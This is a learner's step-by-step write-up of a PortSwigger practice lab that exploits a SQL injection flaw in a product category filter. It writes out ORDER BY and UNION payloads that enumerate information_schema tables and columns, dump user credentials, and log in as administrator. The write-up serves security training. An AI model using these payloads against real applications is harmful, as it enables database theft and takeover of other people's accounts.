Link_to_lab: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

okay at first i notice it says retrieve data from non oracle database

im seeing concepts like: rdbms like oracle, mysql, sql server, postgres sql,...; schema/no schema; unique APIS;...

im trying to find differences between oracle vs non oracle

cant find much, but i will assume the database here uses sql language

i see the road to go:
1. find the name of the table that holds usernames & passwords info
2. somehow retrieve the content through union (they contains a SQL injection vulnerability in the product category filter) 
3. somehow get administrator rights

some googling i know that: "To get the names of all tables in a database, the most ANSI-compliant SQL query uses the INFORMATION_SCHEMA.TABLES view, which works across most major database systems". So now i need to get info from that table.

## Step 1: IDK just try to find the request

i found the request and send it to repeater. sent that request to see how the web reponse to my request?

_______________________________________________________________________________________________________________


nothing special, just print those result out.

## Step 2: GUESS (whatever the server's SQL code is -> so we can UNION the tables' name)

i think their sql code is gonna be like:

```sql
SELECT TITLE, CONTENT 
FROM PRODUCTS  
WHERE COLUMN_NAME = 'Corporate gifts';
```

we can probably do like 

```sql
SELECT TITLE, CONTENT 
FROM PRODUCTS  
WHERE COLUMN_NAME = 'Corporate gifts '
UNION
SELECT TABLE_NAME, NULL #im not sure how many columns they are fetching
FROM INFORMATION_SCHEMA.TABLES --';
```


*Note: Because I see 2 different types of content in each section (title and content), i assumed that there must be 2 columns. And UNION requires the 2 tables matches the number of columns -> I added the "NULL" column. But I'm still not rly sure, so I tested how many columns are actually there below.*
_______________________________________________________________________________________________________________

okay so now i need to figure out how many columns the original query is fetching. lets try with the payload 

```sql
' ORDER BY 1--
```
```http
'+ORDER+BY+1--
```

until we see an error pops up



there it is, the server responsed us with "500 Internal Server Error", meaning we only have 2 columns here.

*Note: Why does it work?*

Basically what 
```sql
SELECT TITLE, CONTENT 
FROM PRODUCTS  
WHERE COLUMN_NAME = 'Corporate gifts ' ORDER BY 1--
```
does is it sorts the rows by the first column.

Same thing goes with 
```sql
SELECT TITLE, CONTENT 
FROM PRODUCTS  
WHERE COLUMN_NAME = 'Corporate gifts ' ORDER BY 2--
```
they gonna sort by the second column.

And if there isn't a third one -> error it's gonna be.


that gives us the payload to retrieve tables' names from INFORMATION_SCHEMA.TABLES

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
```http
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```



it works!! 

## Step 3: GUESS (again, but this time for the name of the table that holds users' accs and its columns' name)

as we get the list of tables' names, i guess i will try to predict what is the specific name for that table

there are not too much tables here, and since i saw a bit of youtube videos about databases, i know "pg" stands for postgresql.

i already knew that many of the tables that have "pg_" at the start or some other SQL standard tables like "sql_packages" won't have the things i need (probably they just store the databases configurations)

i think "users_slpnlb" and "administrable_role_authorizations" might be having what i need.

now i dive deeper into that "users_slpnlb" table by first exploring what columns does it have. i can do this by looking at the "column_name" at information_schema.columns where that column belongs to "users_slpnlb" table.

the payload is gonna be 

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_slpnlb'--
```
```http
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name+=+'users_slpnlb'--
```



this is so *unfortunate*. i cant find anything useful... i did reload a few times because of network problems tho...
_______________________________________________________________________________________________________________

i tried reload the whole thing and find all tables' names again



interestingly, i found it again, but this time with different suffix! i guess the lab just add random suffixes to the table's name everytime i reload the lab. that's probably why i can't find anything from that 'users_slpnlb' early on, because i reloaded the lab and the table's name changed.




there we go, with the right table's name i can finally find out the columns' name. 

```
username_gtvisi
password_wywjlz
```

time to retrieve data from em'!

## Step 4: CLEAN UP

the payload is now simply be:

```http
'+UNION+SELECT+username_gtvisi,+password_wywjlz+FROM+users_mjzduz-- 
```



we found it. the administrator's acc!



there is even a guy named 'wiener' :(

now that i have the administrator's acc, i'm just gonna head back the login page and enjoy :D

```
administrator
t7p07ok8cykxwaqebjfj
```



and that's how i solved the lab :D 

it has been through many processes, but the same trick of using sql "UNION" was used over and over again.


*P/S: I'm sorry for my terrible grammar :(*
